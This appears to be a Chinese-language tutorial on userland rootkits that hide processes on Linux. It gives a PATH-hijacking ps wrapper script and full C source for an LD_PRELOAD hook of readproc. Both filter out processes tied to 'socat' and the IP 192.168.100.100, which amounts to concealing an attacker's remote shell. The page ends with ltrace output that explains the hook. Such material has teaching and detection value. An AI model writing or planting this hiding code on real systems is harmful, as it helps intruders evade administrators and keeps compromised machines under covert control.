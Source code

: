 rootkit 是隱藏程式的技術

### Basic

在 `$PATH` 環境變數中 `/usr/local/bin` 在 `/bin` 前面

所以我們可以寫一個檔案在 `/usr/local/bin/ps`

```bash
#!/bin/bash
/bin/ps $@ | grep -Ev '192.168.100.100|socat'
```

這樣就可以做到簡單的過濾字串了

* `grep -Ev` 是 inverse match
* `$@` 是傳進來的參數 ( 這裡原封不動的交給 `/bin/ps` )

### LD_PRELOAD

#### 原始碼

```c linenums="1"
#define _GNU_SOURCE
#include <dlfcn.h>
#include <string.h>
#include <proc/readproc.h>

int hidden (char *target) {
    char *keywords[2] = { "192.168.100.100", "socat" };
    for (int i = 0; i < 2; i++) if (strstr(target, keywords[i])) return 1;
    return 0;
}

proc_t* readproc (PROCTAB *PT, proc_t *return_buf) {
    typeof(readproc) *old_readproc = dlsym(RTLD_NEXT, "readproc");
    proc_t* ret_value = old_readproc(PT, return_buf);
    while (ret_value
        && ret_value->cmdline
        && hidden(ret_value->cmdline[0])) {
        ret_value = old_readproc(PT, return_buf);
    }
    return ret_value;
}
```

#### 解釋

首先我們可以用 `ltrace` 看 `ps` 跑起來會呼叫什麼 library 的函式  

```c
...
fwrite(" [jfsCommit]\nhe]\n4\n0\n\nstart\ngrou"..., 13, 1, 0x7fbfcd303760)  = 1
readproc(0x55e061b12f90, 0x55e0609d1540, 13, 1024)                          = 0x55e0609d1540
escape_str(0x7fbfcd90b090, 0x55e0609d1740, 0x20000, 0x7fff6f748044)         = 4
strlen("root")                                                              = 4
fwrite("root", 4, 1, 0x7fbfcd303760)                                        = 1
...
```
